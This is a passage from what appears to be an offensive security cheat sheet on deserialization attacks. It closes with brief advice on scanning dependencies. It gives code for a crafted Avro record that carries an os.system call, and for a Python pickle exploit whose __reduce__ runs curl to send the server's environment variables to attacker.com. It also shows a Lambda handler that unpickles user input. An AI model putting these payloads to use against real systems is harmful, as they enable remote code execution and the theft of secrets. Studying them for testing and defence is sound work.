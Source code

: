 #### **Avro Serialization Attacks**:
```python
import avro.schema
import avro.io

# Craft malicious Avro payload
schema = avro.schema.parse("""
{
  "type": "record",
  "name": "User",
  "fields": [
    {"name": "command", "type": "string"}
  ]
}
""")

# Create payload that exploits deserialization
malicious_record = {"command": "__import__('os').system('whoami')"}
```

### **🆕 Cloud Function/Serverless Deserialization**:
```python
# AWS Lambda function exploitation
def lambda_handler(event, context):
    import pickle
    
    # Vulnerable deserialization
    user_data = pickle.loads(base64.b64decode(event['data']))
    return user_data

# Malicious payload for Lambda
import pickle
import base64
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ('curl http://attacker.com/steal?data=$(env)',))

payload = base64.b64encode(pickle.dumps(Exploit())).decode()
```

---

## **9. Using Components with Known Vulnerabilities + Supply Chain**

### **Traditional Component Testing**
- **Step 1: Identify All Components**: Use dependency scanning tools.
- **Step 2: Check for Vulnerabilities**: Use OWASP Dependency-Check, Snyk.
